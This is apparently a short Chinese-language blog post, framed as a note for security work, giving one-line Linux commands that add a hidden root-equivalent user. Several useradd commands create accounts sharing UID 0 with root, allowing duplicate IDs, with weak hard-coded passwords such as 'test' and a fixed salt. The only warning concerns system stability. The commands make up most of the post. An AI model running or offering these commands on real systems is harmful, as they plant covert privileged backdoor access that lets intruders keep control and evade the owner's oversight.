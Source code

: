 ```yaml
---
layout:     post
title:      linux一句话加root用户
subtitle:   网络安全实施过程中快速添加root用户
date:       2023-12-18
author:     Robin
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Note
    - Linux
    - Information security
---
```


linux一句话加root用户：

快速添加root用户
=注意=：添加的用户与root相同uid，对本用户的kick操作等同于kick掉root，可能会造成系统故障

```shell
useradd -M -N -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 ducmi` ducmi
useradd -M -N -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 t` t
或者（因不同版本命令有差别）
useradd -M  -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 test` test
或者
useradd -M -u 0 -g 0 -o -s /bin/bash -p %60openssl passwd -1 -salt 123 ducmi1%60 ducmi1
```



